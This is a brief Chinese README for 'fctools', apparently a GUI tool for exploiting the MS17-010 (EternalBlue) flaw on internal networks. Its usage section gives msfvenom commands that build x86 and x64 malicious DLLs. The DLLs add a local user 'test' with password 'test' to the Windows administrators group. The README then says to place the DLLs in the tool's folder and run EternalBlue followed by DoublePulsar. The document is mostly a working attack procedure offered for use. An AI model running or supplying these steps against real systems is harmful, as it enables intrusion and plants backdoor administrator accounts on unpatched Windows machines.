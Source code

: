 
## 工具名称
fctools
## 工具用途
内网ms17010基于GUI的测试检测工具
## 使用方法
使用msf命令生成恶意dll


```JavaScript
msfvenom -p windows/exec CMD="cmd.exe /c net user test test /add&net localgroup administrators test /add" EXITFUNC=process -f dll > /root/x32.dll

msfvenom -p windows/x64/exec CMD="cmd.exe /c net user test test /add&net localgroup administrators test /add" EXITFUNC=process -f dll > /root/x64.dll
```

然后将dll放入工具主目录下即可，先进行永恒之蓝的利用，再进行双子星的利用
